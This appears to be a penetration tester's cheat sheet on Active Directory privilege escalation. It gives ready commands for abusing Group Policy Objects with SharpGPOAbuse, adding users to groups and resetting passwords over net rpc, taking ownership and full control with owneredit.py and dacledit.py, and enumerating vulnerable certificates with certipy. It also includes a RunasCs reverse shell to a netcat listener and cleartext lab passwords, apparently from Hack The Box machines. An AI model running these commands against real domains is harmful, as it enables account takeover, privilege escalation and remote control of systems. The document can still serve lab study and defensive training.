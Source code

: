 #### Abusing GPO (Group Policy Object)
Check:
```
Import-Module .\PowerView.ps1
Get-NetGPO
Get-GPPermission -Guid 31B2F340-016D-11D2-945F-00C04FB984F9(gpcfilesyspath) -TargetType User -TargetName anirudh
```
Abuse:
```
./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy" (add anirudh to local admin group)
gpupdate /force
```
#### Abusing "Group Policy Creator Owners"
Members of this group can create and modify Group Policy Objects in the domain
```
New-GPO -Name {{GPO-Name}} | New-GPLink -Target "OU=DOMAIN CONTROLLERS,DC=FRIZZ,DC=HTB" -LinkEnabled Yes
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount M.SchoolBus --GPOName "{GPO-Name}" --force
gpupdate /force
rlwrap nc -nlvp 464
.\RunasCs.exe 'M.schoolbus' '!suBcig@MehTed!R' cmd.exe -r 10.10.14.4:464
```
#### Linux Abuse of Over large Permission Over Group and Object
Add the user to the target group
```
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```
Change Existing user password
```
net rpc password "TargetUser" "test@password123" -U "sequel.htb"/"ControlledUser"%"WqSZAF6CysDQbGb3" -S "10.10.11.51"
```
#### Abusing WriteOwner over User
```
sudo timedatectl set-ntp off                                                                                          
sudo rdate -n 10.10.11.51 
python3 owneredit.py -action write -new-owner 'ControlledUser' -target 'TargetUser' 'domain'/'ControlledUser':'WqSZAF6CysDQbGb3'

python3 dacledit.py -action 'write' -rights 'FullControl' -principal 'ControlledUser' -target 'TargetUser' 'domain'/'ControlledUser':'WqSZAF6CysDQbGb3'

net rpc password "TargetUser" "test@password123" -U "sequel.htb"/"ControlledUser"%"WqSZAF6CysDQbGb3" -S "10.10.11.51"
```
#### Abusing Active Directory Certificates
Enumerating vulnerable certificates
```
certipy-ad find -u xxx -p xxxx -dc-ip xxx.xxx.xxx.xxx -stdout -vulnerable
```
###### AD CS Domain Escalation
```
https://github.com/ly4k/Certipy?tab=readme-ov-file#certificates
```
![image](https://github.com/user-attachments/assets/c6e89df4-194f-4e7b-a9c8-9b6c82a159b0)
```
ESC1:

```